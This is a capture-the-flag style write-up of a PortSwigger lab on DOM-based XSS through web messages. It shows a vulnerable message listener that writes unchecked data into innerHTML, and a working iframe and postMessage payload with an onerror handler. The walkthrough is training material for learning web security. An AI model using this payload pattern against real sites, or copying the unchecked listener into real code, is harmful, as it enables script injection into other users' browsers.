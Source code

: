# DOM XSS using web messages

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages), you'll learn: DOM XSS using web messages! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114163506.png)

**View source page:**
```html
[...]
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
[...]
```

In this web message, it's vulnerable to DOM-based XSS, as **it doesn't verify the origin of incoming messages correctly** in the event listener, properties and functions that are called by the event listener.

Also, we can also see a sink (Dangerous function): `innerHTML`. It allows us to write HTML code to the `<div id='id'>` element.

Armed with above information, we can host a malicious HTML file that contains `<iframe>` element and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page:

```html
<html>
    <head>
        <title>DOM XSS using web messages</title>
    </head>
    <body>
        <iframe src="https://0a0d00b0047cf0cfc0d6f9b900b100b5.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=errorpls onerror=print()>','*');"></iframe>
    </body>
</html>
```

As the event listener does not verify the origin of the message, and the `postMessage()` method specifies the `targetOrigin` `"*"`, the event listener accepts the payload and passes it into the `innerHTML` sink.

Let's go to the exploit server to host the payload, and test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164531.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164540.png)

It worked! Let's deliver the payload to victim:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164603.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164608.png)

# What we've learned:

1. DOM XSS using web messages